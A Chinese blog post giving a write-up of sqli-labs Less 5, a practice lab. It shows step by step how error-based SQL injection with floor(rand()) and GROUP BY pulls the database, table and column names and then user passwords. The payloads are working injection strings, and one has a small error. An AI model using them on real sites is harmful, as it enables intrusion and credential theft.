 ```yaml
---
layout: post
title:  "我的SQL（2）"
desc: "新手上路"
keywords: "sql"
date: 2016-11-19
categories: [work]
tags: [blog]
icon: fa-bookmark-o
---
```


# Writeup（基于sqli-labs的less 5）
首先注入

>### `?id=1`

`You are in……`我一脸懵逼，十万脸懵逼。what？不显示。不信邪的我继续尝试`id=2` `id=3`还是一样。看了下源码，fwrite都没有，就是说，他什么都不会显示。简直让人害怕不已。嗯~要换点方法。

在网上搜了一下，哦？！需要构造 一种语法正确（在编译时是正确的）而运行时会出错的sql查询语句，并且错误信息中包含数据局相关信息。一些天才的研究人员发现，可以使用聚合函数 group by子句，并结合随机函数rand()，在运行过程中有可能出错。哈哈哈心动了，开干。（下面附上sql的一些随机语句）



1. ### `select rand()`          	  		    0~1 之间的随机值

2. ### `select rang()*2` 	     	  	 	    0~2 之间的随机值

3. ### `select floor(rand()*2)`     		    0 1 两个整数随机出现

4. ### `select database()` 	        	    当前数据库

5. ### `select concat((select database()),0x20,floor(rand()   *2))a` 	                       			{当前数据库}{空格}{0 1中的一个}


开干开干哈哈哈哈哈。

>### `?id=0' union select 1,count(*),concat((select database()),0x20,floor(rand()*2))a from information_schema.tables group by a%23`
>（注释：count(*)表示全部字段，count(字段名)表示该字段。a是别名，是用来group by的别名。这个随意填写方便就好。0x20是空格的16制码。其他的都能看懂的啦哈哈哈）

第一次`You are in……`别担心，没随机到而已。刷新几遍哈哈出来了。`Duplicate entry 'security 1' for key ''` ok!数据库名出来了。就可以运用前面less1-4的语句来获取信息啦。首先

>### `?id=0' select 1,count(*),concat((select group_concat(distinct table_name) from information_schema.tables where table_schema='security'),0x20,floor(rand()*2))a from information_schema.tables group by a%23`
>（注释：`group_concat(distinct table_name)`这个是显示security里的所有字段。和less1-4有点区别。不过都可以吧只是一个快一个要慢慢地用limit来偏移而已。）

啦啦啦获得users。继续继续

>### `?id=0' union select 1,count(*),concat((select group_concat(distinct column_name) from information_schema.columns where table_schema='security' and table_name='users'),0x20,floor(rand()*2))a from information_schema.tables group by a%23`

得到字段id，username，password。
继续下一步。

>### `?id=0' union select 1,count(*),concat((select concat_ws(char(32,58,32),id,username,password) from users limit 0,1),0x20,floor(rand()*2))a from information_schema.tables group by a%23`

Flag取到。走人。哈哈哈哈哈。

# 总结

### 这里与以往的不一样。展现的是一个更为普遍的事例。因为通常没有人那么傻去把信息显示出来。所以很多时候就需要用到这个随机方法。技能已get。待下次的研究学习。